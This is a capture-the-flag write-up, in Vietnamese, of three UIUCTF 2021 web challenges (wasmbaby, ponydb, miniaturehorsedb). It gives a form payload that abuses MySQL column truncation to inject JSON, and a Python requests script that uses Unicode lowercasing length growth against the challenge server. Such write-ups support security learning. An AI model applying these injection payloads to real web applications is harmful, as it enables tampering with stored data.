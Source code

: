 # ================= UIUCTF 2021 =================

### wasmbaby - 50pts  
  
Challenge khá đơn giản vì là warmup, chỉ cần `Ctrl + Shift + I` để ` inspect element` vào phần `Source` để xem source của trang, trong đó có file `index.wasm` và flag nằm ở dưới cùng của file đó.  
  
![img](./imgs/1.png)  
  
Flag: `uiuctf{welcome_to_wasm_e3c3bdd1}`  
  
### ponydb - 112pts  
  
[Source code](https://uiuc.tf/files/727b10ed82902f914153fd781e8711dd/handout.tar.gz?token=eyJ1c2VyX2lkIjoxMDcyLCJ0ZWFtX2lkIjoxNTUsImZpbGVfaWQiOjQ4fQ.YQe3Ng.TjZr4KWts3_vs_a2z9WNw7zmqcc)  
   
File `templates/ponies.html` có nội dung như sau   
```html
<!-- ponies.html -->
...
<body>
		{% if get_flashed_messages() %}<p>Error: {{ get_flashed_messages()[0] }}</p>{% endif %}
		<h1>Ponies</h1>
		{% for pony in ponies %}
		<h2>{{ pony["name"] }}</h2>
		<img height=200 src="{{ pony['image'] }}">
		{% for favorite in pony['favorites'] %}
		<p>Favorite {{ favorite }}: {{ pony['favorites'][favorite] }}</p>
		{% if favorite == 'number' and pony['favorites'][favorite] == 1337 %}
		<p>Favorite flag: {{ flag }}</p>
		{% endif %}
		{% endfor %}
		<p>{{ pony["bio"] }}</p>
		{% endfor %}
		<h1>Add a pony!</h1>
...
```  
ta dễ dàng thấy để có được `flag` thì phải pass được điều kiện ` if favorite == 'number' and pony['favorites'][favorite] == 1337`, lúc này phải phụ thuộc vào `favorites` cho nên tới đây ta audit tiếp xem `favorites` là cái chi???  
  
Từ `ponydb.py` ta thấy dòng code:  
```python3  
...  
cur.execute(f"SELECT * FROM `ponies` WHERE session='{session['id']}'")  
for (name, bio, image, data, _) in cur:
		ponies.append({"name": name, "bio": bio, "image": image, "favorites": json.loads(data)})
...
```  
thì ta nhận ra là `favorites` là một object được load từ chuỗi json nào đó được lấy ra từ database. Nhưng để dễ hiểu hơn thì mình tiến hành debug ở local từ source mà tác giả đã cung cấp.  
![img](./imgs/2.png)  
  
Cột `favorites` là một chuỗi json được tạo ra do lấy từ input của user khi post lên server.  
Và một điều bất thường trong source code `ponydb.py` ở enpoint `/pony` sau khi audit là:  
  
```python3  
...
@app.route('/pony', methods=['POST'])
def add():
	error = None

	name = request.form['name']
	if "'" in name: error = 'Name may not contain single quote'
	if len(name) > 64: error = 'Name too long'

	bio = request.form['bio']
	if "'" in bio: error = 'Bio may not contain single quote'
	if len(bio) > 256: error = 'Bio too long'

	image = request.form['image']
	if "'" in image: error = 'Image URL may not contain single quote'
	if len(image) > 256: error = 'Image URL too long'

	favorite_key = request.form['favorite_key']
	if "'" in favorite_key: error = 'Custom favorite name may not contain single quote'
	if len(favorite_key) > 64: 'Custom favorite name too long'      # Chổ này chỉ check mà không gán error

	favorite_value = request.form['favorite_value']
	if "'" in favorite_value: error = 'Custom favorite may not contain single quote'
	if len(favorite_value) > 64: 'Custom favorite too long'     # Chổ này cũng chỉ check cho vui :))))

	word = request.form['word']
	if "'" in word: error = 'Word may not contain single quote'
	if len(word) > len('antidisestablishmentarianism'): error = 'Word too long'

	number = int(request.form['number'])
	if number >= 100: error = "Ponies can't count that high"
	if number < 0: error = "Ponies can't count that low"

	if error: flash(error)
...
```
Không như các param `word, name, bio, image`, 2 param `favorite_key và favorite_value` check length của input chỉ để cho vui mà không gán giá trị lại cho biến `error` khi không thoã điều kiện :))).  
  
Và một điều khá quan trọng nữa ở chổ  
```python3  
config = {
	'host': 'localhost',
	'user': 'root',
	'password': 'REDACTED',
	'database': 'ponydb',
	'sql_mode': 'NO_BACKSLASH_ESCAPES'
}
```
tác giả đã cố tình `override sql_mode` thành `NO_BACKSLASH_ESCAPES` để disable `STRICT_TRANS_TABLES` theo mặc định, nghĩa là khi `chuỗi dữ liệu quá dài` so với `độ dài mặc định ` đã được định nghĩa cho column của table nào đó thay vì trả ra error thì nó sẽ bị `truncate` đi.  
  
Ngoài ra, ta còn biết được cấu trúc của bảng  
```python3
...
try: cursor.execute('CREATE TABLE `ponies` (`name` varchar(64), `bio` varchar(256), '
                    '`image` varchar(256), `favorites` varchar(256), `session` varchar(64))')
...                  
```              
Độ dài chuỗi của cột `favorites` là `256`, chain các điều kiện ở trên lại thì ta có ý tưởng để giải bài này là input một chuỗi ở param `favorite_value` (hoặc có thể dùng param `favorite_key`) có độ dài vượt quá 256 để bị truncate, đồng thời vì ký tự `"` không bị filter, nên ta có thể chèn lại giá trị cho `number` thành `1337` để lấy flag.  
  
Payload:
```txt
name=nhienit&image=imaget&favorite_key=color&favorite_value=redaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaredaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaredaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaredaaaaaaaaaaaaaaaaa","number":1337}&word=antidisestablishmentarianis&number=11&bio=123
```  
![img](./imgs/3.png)  
  
Và flag hiện ra XD  
  
![img](./imgs/4.png)    
  
Flag: `uiuctf{My_l33tle_p0ny_5fb234}`  
  
## miniaturehorsedb - 417pts  
  
[Source code](https://uiuc.tf/files/684fe65529f3dafedc7f81d6283c91d4/handout.tar.gz?token=eyJ1c2VyX2lkIjoxMDcyLCJ0ZWFtX2lkIjoxNTUsImZpbGVfaWQiOjU1fQ.YQfBeQ.0TybIzxbLPPcDsWg39rfflTchqM)    
  
Thật ra source code bài này cũng không khác gì mấy so với bài `ponydb` chỉ là chổ check length đã được fix :)))  
```python3  
...
favorite_value = request.form['favorite_value']
if "'" in favorite_value: error = 'Custom favorite may not contain single quote'
if len(favorite_value) > 64: error = 'Custom favorite too long'		# Biến error đã được gán

word = request.form['word']
if "'" in word: error = 'Word may not contain single quote'
if len(word) > len('antidisestablishmentarianism'): error = 'Word too long'	# Biến error đã được gán
...
```  
  
Dạo quanh discord thì nhận được hint của tác giả:  
```python3
>>> len(chr(304).lower())
2
```

Ok tới đây là hiểu rồi, với ký tự có ascii là `304` thì sau khi `lower()` sẽ thành 2 ký tự do đó nên có chiều dài là 2. Nhìn vào source code thì ta thấy có 2 chổ sử dụng hàm `lower()` này là `favorite_key.lower()` và `word.lower()`. Nếu ta sử dụng 64 ký tự `chr(304)` (chỉ cho phép là 64 ký tự) thì ta sẽ có 128 ký tự được tạo ra sau khi đi qua hàm `lower()`, cộng thêm với 64 ký tự `favorite_value` nữa là chỉ 192 ký tự => vẫn chưa đủ để bị `truncate`. Vì thế, ta phải tận dụng thêm 28 ký tự của param `word` nữa, tất cả là do:  
  
```python3
if len(word) > len('antidisestablishmentarianism'): error = 'Word too long'
```  
Với `len('antidisestablishmentarianism') = 28`, nên tổng sẽ được sẽ được 248, cộng thêm các ký tự như `{`, `}`, `"`, `:` theo syntax của json thì sẽ hơn 256 ký tự.  
  
Sau một lúc debug và tính toán thì được cái script để send payload:  
  
```python3
import requests

url = 'http://miniaturehorsedb.chal.uiuc.tf/pony'
r = requests.Session()

data = {
    'name' : 'name',
    'image': 'image',
    'favorite_key' : chr(304) * 64,
    'favorite_value': '","number":1337,"a":"' + 'a' * (64 - len('","number":1337,"a":"')),
    'word' : chr(304) * 22 + 'aaa"}',
    'number': 11,
    'bio' : 'bio'
}

cookies = {
        'session': '.eJwNytENwCAIBcBdmABR5NltikDiDE13b-_7HjpBF2GlYG_k4lZARUoXQEU9PaKP0h1sqc0n6_A_Vjfca4jVFND7Ae5QFAc.YQfrhQ.UMwPh5qAN8BS2zIXLte6E-h7Az4'
}

resp = r.post(url, data=data, cookies = cookies) #, proxies = proxy)
```  
Dữ liệu trong database lúc này sẽ có dạng như sau:  
![img](./imgs/5.png)  
  
Refresh và có flag XD  
  
![img](./imgs/6.png)  
  
Flag: `uiuctf{wh0ops_th1s_on3_was_harder_r1ght_9fa2b}`  
  
